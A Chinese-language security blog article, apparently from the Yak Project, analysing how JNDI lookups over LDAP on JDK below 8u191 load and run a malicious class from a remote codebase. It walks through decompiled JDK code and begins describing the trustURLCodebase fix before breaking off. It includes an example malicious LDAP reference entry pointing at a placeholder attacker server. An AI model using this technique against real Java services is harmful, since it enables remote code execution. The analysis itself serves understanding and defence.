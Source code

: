 ```yaml
---
title: JNDI的基础利用总结（下篇）
url: https://mp.weixin.qq.com/s?__biz=Mzk0MTM4NzIxMQ==&mid=2247495055&idx=1&sn=5b6b3b64dd75141d87a7aed3e4a63ab3&chksm=c2d1912bf5a6183d618057410ea45f2793f19e1bf50101a0e2ea8e47b680ca816e1278ac46e3&scene=58&subscene=0#rd
source: Yak Project
date: 2023-03-31
fetch_date: 2025-10-04T11:15:57.823146
---
```


# JNDI的基础利用总结（下篇）

![cover_image](https://mmbiz.qpic.cn/mmbiz_jpg/f7AtEgJhMZfVnlvdkmSOlUs7MGg8YV3zFSfqy2CtNLmQAmibSe1ic7mJHqXJTdXGPHGIb9Wp4Wd9a4NFZ7EibLfpA/0?wx_fmt=jpeg)

# JNDI的基础利用总结（下篇）

原创

雨过天晴

Yak Project

![](https://mmbiz.qpic.cn/mmbiz_gif/f7AtEgJhMZfSpFpvkIFZmQIErFibib1uiaOsLXZKbkicRsicXVN3QYGac0xrqKu7Pxo1UO0YLMiboTs0WCcBUO3qOhhw/640?wx_fmt=gif)

**JNDI核心原理详细分析**

01

加载远程codebase中的reference

**适用前提：**

![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZfVnlvdkmSOlUs7MGg8YV3zia0bLxUClZjiaRJHyTgzfjaXP6JYIQlW3LiaQFA5Z7UEnLR8Qzibj3AIuQ/640?wx_fmt=png)

* 目标出网
* jdk<8u191

**举例分析**

此处使用的是ldap协议，因此受影响的版本即8u191以下，此处对应的便是SimpleCommand的情况

查询后返回的entry

![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZfVnlvdkmSOlUs7MGg8YV3zq6TPT0HB6UQ6gyLIgXQJ9GBRDY8RBCRyJmlQJPBle94gEoptKfl0Ng/640?wx_fmt=png)

attribute内容如下

```
{objectclass=objectClass: javaNamingReference, javacodebase=javaCodeBase: http://xxx.xxx.xxx.xxx:8000/#SimpleCommand, javafactory=javaFactory: SimpleCommand, javaclassname=javaClassName: SimpleCommand}
```

![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZfVnlvdkmSOlUs7MGg8YV3zREYrzWLicLmyfhIgib9bP9Y73XdAonSSHf7t1ke8X3nyYqMW6xSSzN0g/640?wx_fmt=png)

```
 static Object decodeObject(Attributes var0) throws NamingException {        String[] var2 = getCodebases(var0.get(JAVA_ATTRIBUTES[4]));
        try {            Attribute var1;            if ((var1 = var0.get(JAVA_ATTRIBUTES[1])) != null) {                ClassLoader var3 = helper.getURLClassLoader(var2);                return deserializeObject((byte[])((byte[])var1.get()), var3);            } else if ((var1 = var0.get(JAVA_ATTRIBUTES[7])) != null) {                return decodeRmiObject((String)var0.get(JAVA_ATTRIBUTES[2]).get(), (String)var1.get(), var2);            } else {                var1 = var0.get(JAVA_ATTRIBUTES[0]);                return var1 == null || !var1.contains(JAVA_OBJECT_CLASSES[2]) && !var1.contains(JAVA_OBJECT_CLASSES_LOWER[2]) ? null : decodeReference(var0, var2);            }        } catch (IOException var5) {            NamingException var4 = new NamingException();            var4.setRootCause(var5);            throw var4;        }    }
```

按照此处的逻辑首先拿到var2也就是codebasehttp://host:8000/#SimpleCommand

然后取出javaSerializedData存入var1，此处根本不存在这个属性所以为null，进入下一个分支判断；

取出javaRemoteLocation存入var1， 此处也根本不存在这个属性所以为null，进入最后一个else分支；

取出objectClass存入var1，也就是objectClass: javaNamingReference，此处不为null，进入判断是否包含javaNamingReference，大小写都判断一下是否存在，此处显然存在，因此会进入decodeReference()方法，此处传入两个参数，一个是整个attribute，另一个则是最先拿到的codebase var2

```
private static Reference decodeReference(Attributes var0, String[] var1) throws NamingException, IOException {        String var4 = null;        Attribute var2;        if ((var2 = var0.get(JAVA_ATTRIBUTES[2])) == null) {            throw new InvalidAttributesException(JAVA_ATTRIBUTES[2] + " attribute is required");        } else {            String var3 = (String)var2.get();            if ((var2 = var0.get(JAVA_ATTRIBUTES[3])) != null) {                var4 = (String)var2.get();            }
            Reference var5 = new Reference(var3, var4, var1 != null ? var1[0] : null);            if ((var2 = var0.get(JAVA_ATTRIBUTES[5])) != null) {                BASE64Decoder var13 = null;                ClassLoader var14 = helper.getURLClassLoader(var1);                Vector var15 = new Vector();                var15.setSize(var2.size());                NamingEnumeration var16 = var2.getAll();
                while(var16.hasMore()) {                    String var6 = (String)var16.next();                    if (var6.length() == 0) {                        throw new InvalidAttributeValueException("malformed " + JAVA_ATTRIBUTES[5] + " attribute - " + "empty attribute value");                    }
                    char var9 = var6.charAt(0);                    byte var10 = 1;                    int var11;                    if ((var11 = var6.indexOf(var9, var10)) < 0) {                        throw new InvalidAttributeValueException("malformed " + JAVA_ATTRIBUTES[5] + " attribute - " + "separator '" + var9 + "'" + "not found");                    }
                    String var7;                    if ((var7 = var6.substring(var10, var11)) == null) {                        throw new InvalidAttributeValueException("malformed " + JAVA_ATTRIBUTES[5] + " attribute - " + "empty RefAddr position");                    }
                    int var12;                    try {                        var12 = Integer.parseInt(var7);                    } catch (NumberFormatException var18) {                        throw new InvalidAttributeValueException("malformed " + JAVA_ATTRIBUTES[5] + " attribute - " + "RefAddr position not an integer");                    }
                    int var19 = var11 + 1;                    if ((var11 = var6.indexOf(var9, var19)) < 0) {                        throw new InvalidAttributeValueException("malformed " + JAVA_ATTRIBUTES[5] + " attribute - " + "RefAddr type not found");                    }
                    String var8;                    if ((var8 = var6.substring(var19, var11)) == null) {                        throw new InvalidAttributeValueException("malformed " + JAVA_ATTRIBUTES[5] + " attribute - " + "empty RefAddr type");                    }
                    var19 = var11 + 1;                    if (var19 == var6.length()) {                        var15.setElementAt(new StringRefAddr(var8, (String)null), var12);                    } else if (var6.charAt(var19) == var9) {                        ++var19;                        if (var13 == null) {                            var13 = new BASE64Decoder();                        }
                        RefAddr var17 = (RefAddr)deserializeObject(var13.decodeBuffer(var6.substring(var19)), var14);                        var15.setElementAt(var17, var12);                    } else {                        var15.setElementAt(new StringRefAddr(var8, var6.substring(var19)), var12);                    }                }
                for(int var20 = 0; var20 < var15.size(); ++var20) {                    var5.add((RefAddr)var15.elementAt(var20));                }            }
            return var5;        }    }
```

首先判断是否包含必有属性javaClassName，必须得有这个，没有直接返回，再把javaClassName存入var3，此处值为javaClassName: SimpleCommand，再看看有没有javaFactory，这个是可选，假如有就存入var4，此处是包含的值为javaFactory: SimpleCommand，接着便根据javaClassName，javaFactory和codebase值建立一个Reference。接着判断javaReferenceAddress是否为null，此处属性不含这个，因此跳过。直接返回建立的引用Reference

![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZfVnlvdkmSOlUs7MGg8YV3z0mq7DibtQI3r9xJs0wtTdxgvKCO92anynN1NEEEXkzQ6dFf7lzjwThw/640?wx_fmt=png)

返回到ldapCtx

![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZfVnlvdkmSOlUs7MGg8YV3zJUibsueVzhZOTfY7fKP0LeRSY3mIpYmUsmNQ8gFwdYcXpdLVPeBmu2Q/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZfVnlvdkmSOlUs7MGg8YV3z9g2voh4hdqfDIxIN5qVr9iaXwYsMriaAoRRZ2ggicBEOkgYTGqtLvzmxg/640?wx_fmt=png)

在此处实例化了远程引用var3

跟进DirectoryManager中的getObjectInstance方法

![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZfVnlvdkmSOlUs7MGg8YV3zKI4FQN1Hib5nXnyDQXvRXGOQYt6eO9NsDbAE2BwQag85W3GF9YcbodA/640?wx_fmt=png)

核心点

![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZfVnlvdkmSOlUs7MGg8YV3zic8MZkFW287ibCndMMMB91xmSRLhbQPV7Z1sI4NaC2gibXIRg6ibbaMzeg/640?wx_fmt=png)

factory = getObjectFactoryFromReference(ref, f);

![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZfVnlvdkmSOlUs7MGg8YV3zweUdKRYHKMjg4QcV5nZr27EAEBVb8wiaRvUGhDWb7II0PSiax2iaVut1g/640?wx_fmt=png)

先尝试本地加载，否则用codebase加载。最终因为加载我们的远程恶意类，再静态方法区嵌入恶意代码，实例化过程中被执行

![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZfVnlvdkmSOlUs7MGg8YV3zKFjaNdtAttFsVCSDye4zibALJOSjibyj7Ciat5JaLORO3ibmmB0lRYKRTw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZfVnlvdkmSOlUs7MGg8YV3zNBq1E6uHVbYibBwepd3C5wwKFflejXA8Sl07dR29tefJeicRnXzUfESw/640?wx_fmt=png)

##### **java>8u191 修复原理，对使用codebase进行URLClassloader加载前进行trustURLCodebase判断**

在使用远程codebase进行loadClass时不会像上面这样直接去Class.forName()而是

![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZfVnlvdkmSOlUs7MGg8YV3zpKicj34THb2S2REvvDW...